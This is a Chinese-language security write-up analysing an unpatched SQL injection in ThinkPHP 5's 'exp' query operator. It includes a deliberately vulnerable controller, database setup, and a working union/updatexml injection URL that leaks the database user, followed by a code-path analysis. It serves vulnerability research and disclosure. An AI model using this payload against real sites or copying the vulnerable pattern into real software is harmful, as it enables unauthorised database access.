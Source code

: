 # Thinkphp5 全版本 sql注入漏洞

### 一、漏洞简介

本篇文章，将分析 ThinkPHP 中存在的 SQL注入 漏洞（ select 方法注入）。次漏洞存在于 Mysql 类的 parseWhereItem 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生。

### 二、漏洞影响

ThinkPHP5全版本

### 三、复现过程

漏洞环境

通过以下命令获取测试环境代码：


```
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo
```

将 composer.json 文件的 require 字段设置成如下：


```json
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
},
```

然后执行 composer update ，并将 application/index/controller/Index.php 文件代码设置如下：


```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username');
        $result = db('users')->where('username','exp',$username)->select();
        return 'select success';
    }
}
```

在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。创建数据库信息如下：


```php
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz');
```

poc


```
http://url:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#
```

访问链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）

![](images/15893488384102.png)


### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 Request 类的 get 方法中会调用该类的 input 方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的 SQL 查询方法中。首先程序先调用 Query 类的 where 方法，通过其 parseWhereExp 方法分析查询表达式，然后再返回并继续调用 select 方法准备开始构建 select 语句。

![](images/15893488485321.png)


上面的 $this->builder 为 \think\db\builder\Mysql 类，该类继承于 Builder 类，所以接着会调用 Builder 类的 select 方法。在 select 方法中，程序会对 SQL 语句模板用变量填充，其中用来填充 %WHERE% 的变量中存在用户输入的数据。我们跟进这个 where 分析函数，会发现其会调用生成查询条件 SQL 语句的 buildWhere 函数。

![](images/15893488545180.png)


继续跟进 buildWhere 函数，发现用户可控数据又被传入了 parseWhereItem where子单元分析函数。我们发现当操作符等于 EXP 时，将来自用户的数据直接拼接进了 SQL 语句，最终导致了 SQL注入漏洞 。

![](images/15893488618703.png)


漏洞修复

未修复。

攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![](images/15893488682536.png)


参考链接

https://github.com/Mochazz/ThinkPHP-Vuln